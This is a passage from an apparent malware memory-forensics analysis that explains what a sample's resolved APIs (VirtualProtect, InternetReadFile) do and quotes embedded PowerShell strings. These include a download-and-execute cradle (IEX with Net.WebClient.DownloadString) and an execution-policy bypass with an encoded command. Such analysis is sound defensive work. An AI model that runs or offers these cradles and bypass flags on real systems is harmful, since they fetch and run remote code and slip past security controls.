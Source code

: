 ### `VirtualProtect`

Similarly, it compares another hash (`0x7946C61B`) which resolves to `VirtualProtect`. This function is used to change memory protection on a region, for example, from non-executable to executable. Malware uses this after writing shellcode to memory, so it can then execute it without raising suspicion from modern defences like DEP (Data Execution Prevention).

![image20](/assets/images/memory-forensics/image20.png)

## 6.5 InternetReadFile

This is a network API used to download data from the internet. It's often part of the second-stage delivery mechanism or used to fetch C2 commands or payloads.

## **6.6 DownloadUsingpowershell**

This isn’t a standard API but likely refers to PowerShell commands or strings used to download content, such as `Invoke-WebRequest` or `IEX(New-Object Net.WebClient).DownloadString()`. These are common in LOLBins and script-based malware. 

A suspicious PowerShell command is embedded:

- `IEX (New-Object Net.WebClient).DownloadString('-')`
- This is a known pattern for downloading and executing code from the web, and is heavily used by Cobalt Strike and similar tools. `http://127.0.0.1/u` this is often used for testing during development, or as a placeholder. Strings like `nop -exec bypass -EncodedCommand` Attempts to obfuscate PowerShell payloads via base64 encoding and bypass command execution restrictions.

## 7.0 Analysing the MemoryDump
